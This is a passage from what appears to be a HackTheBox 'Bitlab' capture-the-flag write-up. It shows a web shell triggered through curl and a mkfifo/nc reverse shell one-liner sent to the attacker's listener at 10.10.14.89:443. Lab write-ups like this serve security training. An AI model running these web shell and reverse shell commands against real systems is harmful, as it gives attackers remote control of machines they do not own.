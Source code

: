 
Once it's done, I can interact with my shell as such:

```bash
curl http://bitlab.htb/profile/shell.php?cmd=id
```

![rce-21](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bitlab/img/rce-21.png)


From here I use the following payload to get a shell:

```bash
rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.89 443 >/tmp/f
```

I start my local listener with:

```bash
rlwrap nc -lnvp 443
```

And finally, I use Burp's encoder to URL encode the payload and supply it to the previous `curl` command, and I get a shell:

![shell-22](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bitlab/img/shell-22.png)
